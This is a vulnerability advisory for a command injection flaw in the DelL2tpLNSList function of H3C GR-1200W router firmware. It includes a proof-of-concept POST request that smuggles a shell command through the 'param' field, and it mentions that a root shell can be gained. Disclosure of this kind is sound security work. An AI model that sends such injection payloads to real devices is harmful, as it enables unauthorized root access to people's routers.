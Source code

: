 # H3C GR-1200W (<=MiniGRW1A0V100R006) Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.

![image-20220724213415656](img/image-20220724213415656.png)

In the `DelL2tpLNSList` function, it format the `param` parameter we entered into `V13` through the `snprintf` function, and execute our command through the system function. We can execute our orders through $(command).

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=DelL2tpLNSList&param=1; $(ps>/www/1);
```

![image-20220725142032977](img/image-20220725142032977.png)

![image-20220725142137070](img/image-20220725142137070.png)

The above figure shows the POC attack effect

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.
